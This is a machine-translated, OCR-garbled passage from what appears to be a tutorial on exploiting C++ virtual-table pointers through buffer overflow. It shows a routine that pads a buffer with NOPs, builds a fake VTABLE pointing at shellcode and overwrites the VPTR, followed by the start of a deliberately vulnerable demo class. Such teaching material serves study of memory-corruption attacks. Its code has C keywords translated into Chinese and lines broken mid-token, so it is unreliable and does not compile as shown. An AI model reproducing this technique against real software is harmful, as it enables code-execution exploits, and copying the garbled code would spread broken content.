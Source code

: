 对于 (i=0;i\<VPTROffset;i++) 缓冲区\[i\]=\'\\x90\';

// 用 90h 填充缓冲区 （NOP，旧习惯:)))

LongBuffer = (unsigned long \*) 缓冲区；

//构造一个指针来放置我们的 VTABLE 中的地址。

for (i=0;i\<NAddress;i++) LongBuffer\[i\]=BufferAddress+CCOffset; // 在缓冲区的开头用 shellcode 的地址填充我们的

VTABLE。

LongBuffer=(unsigned long\*)&Buffer\[VPTROffset\]; // 在 VPTR 上构造一

个指针。

\*LongBuffer=缓冲区地址； // 将覆盖 VPTR 的值。

缓冲区\[CCOffset\]=\'\\xCC\'; // 我们的

缓冲区\[VPTROffset+4\]=\'\\x00\';

13/26

Machine Translated by Google

// 以 00h 字符 （结束字符串）结束。

返回缓冲区； }

在我们的程序中，我们现在可以调用我们的 BufferOverflow() 函数，作为参数： ‑ 我们的缓冲区的地址，这里是我们的

对象的地址 (Object\[0\])。 ‑ 在我们的 VTABLE 中有 4 个值，在这种情况下 （因为 PrintBuffer() 在 VTABLE+8+4

中）。 ‑ 32 作为 VPTR 的偏移量。

这是生成的代码 （bo3.cpp）：

#include \<stdio.h>

#include \<string.h> #include

\<malloc.h>

类 BaseClass {私有：字符缓

冲区 \[32\]；公共： void

SetBuffer(char \*String)

virtual void PrintBuffer() { printf(\"%s\\n\",Buffer); } };

类 MyClass1:public BaseClass { public: void

PrintBuffer() { printf(\"MyClass1: \");

BaseClass::PrintBuffer(); }};

类 MyClass2:public BaseClass { public: void

PrintBuffer() {

printf(\"MyClass2:\");

BaseClass::PrintBuffer(); }};
